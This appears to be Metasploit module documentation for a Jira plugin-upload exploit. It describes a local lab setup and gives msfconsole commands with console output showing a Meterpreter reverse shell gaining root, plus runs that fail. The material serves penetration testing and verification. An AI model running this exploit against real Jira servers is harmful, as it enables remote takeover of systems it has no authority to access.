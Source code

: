 ## Description

This module uses a POST request against against the Atlassian Jira Universal Plugin Manager (UPM) to upload a malicious Java servlet in the form of a JAR archive. Once uploaded the module executes the payload with a GET request and then cleans up after itself by deleting the plugin. Successful exploitation is dependent on valid credentials to an account that has access to the UPM (typically the admin account). The module includes a check function that will validate user supplied credentials and access to the UPM.

## Vulnerable Application
	
The version of Atlassian Jira used for testing was 7.8.0 but the module should work for all versions of Jira as the main dependency is the implementation of Atlassian's UPM framework.

To set up a vulnerable installation:
1. Build the Atlassian SDK environment. Instructions can be found below:
    - Windows:
    https://developer.atlassian.com/server/framework/atlassian-sdk/install-the-atlassian-sdk-on-a-windows-system/
    - Linux/Mac:
    https://developer.atlassian.com/server/framework/atlassian-sdk/install-the-atlassian-sdk-on-a-linux-or-mac-system/
2. Create a shell Jira plugin and launch the SDK. Instructions can be found below:
    - https://developer.atlassian.com/server/framework/atlassian-sdk/create-a-helloworld-plugin-project/
3. Validate installation by browsing to localhost:2990/jira/ and logging in with the default credentials admin:admin



## Verification Steps

1. Install Atlassian SDK/Jira environment.
2. Browse to localhost:2990/jira/ to confirm successful deployment.
3. Start msfconsole: ```msfconsole -q```
4. Do: ```use exploit/multi/http/jira_plugin_upload```
5. Do: ```set rhost 127.0.0.1```
6. Do: ```set rport 2990```
7. Validate options: ```show options```
8. Check credentials and UPM access: ```check```
9. Do: ```exploit```
10. You should get a shell.

## Scenarios
Successful exploitation:
```
msf > use exploit/multi/http/jira_plugin_upload
msf exploit(multi/http/jira_plugin_upload) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(multi/http/jira_plugin_upload) > set rport 2990
rport => 2990
msf exploit(multi/http/jira_plugin_upload) > show options

Module options (exploit/multi/http/jira_plugin_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  admin            yes       The password for the specified username
   HttpUsername  admin            yes       The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST         127.0.0.1        yes       The target address
   RPORT         2990             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /jira/           yes       The base URI to Jira
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/jira_plugin_upload) > check

[*] Server accepted the credentials, user has access to plugin manager!
[*] 127.0.0.1:2990 The target appears to be vulnerable.
msf exploit(multi/http/jira_plugin_upload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving Session ID and XSRF token...
[*] Attempting to upload UlDRthpT
[*] Successfully uploaded UlDRthpT
[*] Executing UlDRthpT
[*] Deleting UlDRthpT
[*] Sending stage (53837 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:43208) at 2018-02-25 13:45:43 -0500

meterpreter > getuid
Server username: root
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: Died
msf exploit(multi/http/jira_plugin_upload) > 
```
Running check module with bad credentials:
```msf exploit(multi/http/jira_plugin_upload) > show options

Module options (exploit/multi/http/jira_plugin_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  admin            yes       The password for the specified username
   HttpUsername  password         yes       The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST         127.0.0.1        yes       The target address
   RPORT         2990             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /jira/           yes       The base URI to Jira
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/jira_plugin_upload) > check

[-] Server rejected the credentials or the user doesn't have access to plugin manager!
[*] 127.0.0.1:2990 Cannot reliably check exploitability.
msf exploit(multi/http/jira_plugin_upload) > 
```
Attempting to exploit with bad credentials:
```
msf exploit(multi/http/jira_plugin_upload) > show options

Module options (exploit/multi/http/jira_plugin_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  admin            yes       The password for the specified username
   HttpUsername  password         yes       The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST         127.0.0.1        yes       The target address
   RPORT         2990             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /jira/           yes       The base URI to Jira
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/jira_plugin_upload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving Session ID and XSRF token...
[*] Attempting to upload evgjHaJf
[*] Error uploading evgjHaJf
[*] Exploit completed, but no session was created.
msf exploit(multi/http/jira_plugin_upload) > 
```
Attempting to exploit with bad URI and/or victim IP:
```
msf exploit(multi/http/jira_plugin_upload) > show options

Module options (exploit/multi/http/jira_plugin_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  admin            yes       The password for the specified username
   HttpUsername  password         yes       The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST         127.0.0.1        yes       The target address
   RPORT         2990             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /wronguri/       yes       The base URI to Jira
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/jira_plugin_upload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[-] Exploit aborted due to failure: unknown: Unable to access the web application
[*] Exploit completed, but no session was created.
msf exploit(multi/http/jira_plugin_upload) > 
```
